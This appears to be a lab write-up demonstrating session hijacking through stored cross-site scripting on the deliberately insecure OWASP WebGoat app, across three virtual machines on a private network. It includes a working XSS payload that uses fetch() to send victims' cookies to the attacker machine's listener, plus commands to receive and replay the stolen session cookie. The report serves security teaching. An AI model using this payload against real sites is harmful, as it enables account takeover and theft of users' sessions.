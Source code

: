 # Session Hijack using XSS

## Introduction
A **Session Hijack** attack exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

Session Hijacking involves compromising this session cookie, either by stealing or predicting a valid session cookie, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
Cross-Site Scripting (XSS) attacks are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* Reflected XSS Attacks: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* Stored XSS Attacks: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In this experiment, we will use a stored XSS attack to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
To test the machine's connectivity we perform the following ping commands:

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
To run WebGoat on Ubuntu, use the following command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
This sets up Ubuntu as the web server, with OWASP WebGoat running on port 8080.

### Phase 3: Attacker Account
To access WebGoat from Kali, open a browser and type the following URL:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) 
Let's create an account using the register button:
![Attacker Register](images/attacker-register.png) 

### Phase 4: Identify XSS Vulnerability
Navigate to:
```
(A3) Injection > Cross Site Scripting (stored)
```
![xss page](images/xss-page.PNG)
This page simulates a forum where any registered user can write comments.

To verify if the page is vulnerable to XSS attacks, write the following comment in the input field.
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)
As we can see, the comment body recognized the htlm tags, indicating that the input is not sanitized. 
We can exploit this weakness by injecting some malicious script.

### Phase 5: Payload Injection
Write the following comment:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)
This payload is permanently stored in the website's database. Every time a user views this comment, their browser will send all stored cookies to the attacker's server via an HTTP request.

### Phase 6: Attacker Controlled Server
To open an HTTP server on Kali, use the following command:
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)
Now the attacker only needs to wait for http requests

### Phase 7: Target Access Comment
An unsuspecting user (Windows VM) access WebGoat and reads the malicious comment:
![cookie](images/cookie.PNG)
The target's cookie is stolen without their knowledge.

### Phase 8: Use Session Cookie
With the obtained session cookie, the attacker can impersonate the target using the following command in the Firefox debugger console:
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
![impersonate](images/impersonate.PNG)

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References (and Ispiration)
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack